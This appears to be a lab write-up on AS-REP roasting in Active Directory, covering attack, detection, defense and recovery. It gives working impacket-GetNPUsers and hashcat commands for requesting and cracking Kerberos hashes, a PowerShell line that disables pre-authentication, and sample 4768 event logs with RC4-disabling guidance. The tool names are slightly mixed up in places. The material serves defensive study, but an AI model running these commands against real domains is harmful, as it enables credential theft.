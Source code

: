 # Steal or Forge Kerberos Tickets: AS-REP Roasting 

Summary: You are able to gather the Kerberos hash of an account when pre-auth is disabled.  You do need to gather a list of the accounts to brute-force or identify if Kerberos Preauth is disabled.  Then this will work...

## Impacket GetNPUsers (Staging)

Powershell command to disable the Kerberos Pre-Authentication

```powershell
Set-ADAccountControl -Id reminder.service -DoesNotRequirePreAuth:$true
```


List accounts with Kerberos Preauth Disabled
```powershell
Get-ADUSer -Filter { DoesNotRequirePreAuth -eq $true } -Properties DoesNotRequirePreAuth | select SamAccountName, DoesNotRequirePreAuth
```


## Impacket GetNPUsers - (Exploiting)
Need to generate a userlist for the user.txt file...

```bash
impacket-GetNPUsers 4gr8.local/ -usersfile user.txt -dc-ip 10.27.20.180 -request -format hashcat  -outputfile kerb.txt
```

Using hashcat and a wordlist we can attempt to crack the hash.  I knew the password and placed it in p.txt and then the kerb.txt was created from the GetUserSPNs command above.

```bash
hashcat -m 18200 kerb.txt p.txt
```

The output of the hashcat command shows the hash in the kerb.txt file with a colon at the end with the password that was cracked.


## Impacket GetNPUsers - (Detection)

Events seen in the Windows Event Viewer
1. NOTE: No authentication is recorded...
2. EID 4768 - Kerberos Authentication Service (TGT was requested)

EID 4768 - Kerberos Authentication Service (TGT was requested)
**Note: The pre-authentication type is 0**

```xml
<Event xmlns="**http://schemas.microsoft.com/win/2004/08/events/event**">
<System>
  <Provider Name="**Microsoft-Windows-Security-Auditing**" Guid="**{54849625-5478-4994-a5ba-3e3b0328c30d}**" />
  <EventID>4768</EventID>
  <Version>0</Version>
  <Level>0</Level>
  <Task>14339</Task>
  <Opcode>0</Opcode>
  <Keywords>0x8020000000000000</Keywords>
  <TimeCreated SystemTime="**2024-07-09T05:12:35.182185800Z**" />
  <EventRecordID>82998</EventRecordID>
  <Correlation />
  <Execution ProcessID="**612**" ThreadID="**2472**" />
  <Channel>Security</Channel>
  <Computer>WIN-OI3P2O5BHVP.4gr8.local</Computer>
  <Security />
  </System>
<EventData>
  <Data Name="**TargetUserName**">reminder.service</Data>
  <Data Name="**TargetDomainName**">4GR8.LOCAL</Data>
  <Data Name="**TargetSid**">S-1-5-21-3900604921-645817685-2682530419-1131</Data>
  <Data Name="**ServiceName**">krbtgt</Data>
  <Data Name="**ServiceSid**">S-1-5-21-3900604921-645817685-2682530419-502</Data>
  <Data Name="**TicketOptions**">0x50800000</Data>
  <Data Name="**Status**">0x0</Data>
  <Data Name="**TicketEncryptionType**">0x17</Data>
  <Data Name="**PreAuthType**">0</Data>
  <Data Name="**IpAddress**">::ffff:10.27.20.173</Data>
  <Data Name="**IpPort**">40390</Data>
  <Data Name="**CertIssuerName**" />
  <Data Name="**CertSerialNumber**" />
  <Data Name="**CertThumbprint**" />
  </EventData>
  </Event>
```


## Impacket - Get NP Users (Defense)

Disable RC4 in the group policies applied to your devices including your domain controllers.  Go to the Policy --> Computer Configuration --> Policies --> Windows Settings --> Security Settings --> Local Policies --> Security Options --> Select "Network security: Configure encryption types allowed for Kerberos"  -> Then select the AES check boxes...

![gpoSetupKerberos.png](/redteam/MITRE/gpoSetupKerberos.png)

Enable Logging of Audit Failures which will capture Event ID 4768 of an account name that does not exist.

After configuring the encryption types allowed for Kerberos and the logging is configured, an Event ID of 4768 will show an audit failure attempt with RC4 and then an Event ID 4768 if it was successful with AES.  The ticket encryption type changes to 0x12 and this will change the hashcat command to match the type of hash returned.

This attack is also conducted with a list of user accounts so another method of detection is to search for audit failures for a group of accounts in a small period of time.  Note the Status is 0x6 and TicketEncryptionType is 0xffffffff.  This could indicate an attempt with it showing the source IP Address or host.

```xml
<Event xmlns="**http://schemas.microsoft.com/win/2004/08/events/event**">
<System>
  <Provider Name="**Microsoft-Windows-Security-Auditing**" Guid="**{54849625-5478-4994-a5ba-3e3b0328c30d}**" />
  <EventID>4768</EventID>
  <Version>0</Version>
  <Level>0</Level>
  <Task>14339</Task>
  <Opcode>0</Opcode>
  <Keywords>0x8010000000000000</Keywords>
  <TimeCreated SystemTime="**2024-07-12T03:31:17.182140100Z**" />
  <EventRecordID>118916</EventRecordID>
  <Correlation />
  <Execution ProcessID="**596**" ThreadID="**4276**" />
  <Channel>Security</Channel>
  <Computer>WIN-OI3P2O5BHVP.4gr8.local</Computer>
  <Security />
  </System>
<EventData>
  <Data Name="**TargetUserName**">test2.test2</Data>
  <Data Name="**TargetDomainName**">4GR8.LOCAL</Data>
  <Data Name="**TargetSid**">S-1-0-0</Data>
  <Data Name="**ServiceName**">krbtgt/4GR8.LOCAL</Data>
  <Data Name="**ServiceSid**">S-1-0-0</Data>
  <Data Name="**TicketOptions**">0x50800000</Data>
  <Data Name="**Status**">0x6</Data>
  <Data Name="**TicketEncryptionType**">0xffffffff</Data>
  <Data Name="**PreAuthType**">-</Data>
  <Data Name="**IpAddress**">::ffff:10.27.20.173</Data>
  <Data Name="**IpPort**">54864</Data>
  <Data Name="**CertIssuerName**" />
  <Data Name="**CertSerialNumber**" />
  <Data Name="**CertThumbprint**" />
  </EventData>
  </Event>
```

If RC4 is disabled you will see the following event indicating it failed but then will retry with AES and an audit success would follow.  The status is 0xe and ticket encryption type is 0xffffffff.

```xml
<Event xmlns="**http://schemas.microsoft.com/win/2004/08/events/event**">
<System>
  <Provider Name="**Microsoft-Windows-Security-Auditing**" Guid="**{54849625-5478-4994-a5ba-3e3b0328c30d}**" />
  <EventID>4768</EventID>
  <Version>0</Version>
  <Level>0</Level>
  <Task>14339</Task>
  <Opcode>0</Opcode>
  <Keywords>0x8010000000000000</Keywords>
  <TimeCreated SystemTime="**2024-07-12T03:31:17.165313600Z**" />
  <EventRecordID>118910</EventRecordID>
  <Correlation />
  <Execution ProcessID="**596**" ThreadID="**4276**" />
  <Channel>Security</Channel>
  <Computer>WIN-OI3P2O5BHVP.4gr8.local</Computer>
  <Security />
  </System>
 <EventData>
  <Data Name="**TargetUserName**">reminder.service</Data>
  <Data Name="**TargetDomainName**">4GR8.LOCAL</Data>
  <Data Name="**TargetSid**">S-1-0-0</Data>
  <Data Name="**ServiceName**">krbtgt/4GR8.LOCAL</Data>
  <Data Name="**ServiceSid**">S-1-0-0</Data>
  <Data Name="**TicketOptions**">0x50800000</Data>
  <Data Name="**Status**">0xe</Data>
  <Data Name="**TicketEncryptionType**">0xffffffff</Data>
  <Data Name="**PreAuthType**">-</Data>
  <Data Name="**IpAddress**">::ffff:10.27.20.173</Data>
  <Data Name="**IpPort**">54822</Data>
  <Data Name="**CertIssuerName**" />
  <Data Name="**CertSerialNumber**" />
  <Data Name="**CertThumbprint**" />
  </EventData>
  </Event>
```


## Impacket - Get NP Users (Recovery)

1. Gather list of accounts used in the Kerberoasting
2. Identify if any successful authentications occurred after the kerberoasting
3. Continue to monitor for authentications due to the miscreants conducting offline cracking of the hashes
4. Evaluate the accounts that were kerberoasted and identify if the passwords should be rotated or changed due to ease of guessing or the password being in a compromised list.
5. Inspect the host that conducted the kerberoasting and identify any additional actions that host may have taken.

# References

https://techexpert.tips/powershell/powershell-list-accounts-kerberos-preauth-disabled/

https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4768

https://www.hackingarticles.in/kerberoasting-and-pass-the-ticket-attack-using-linux/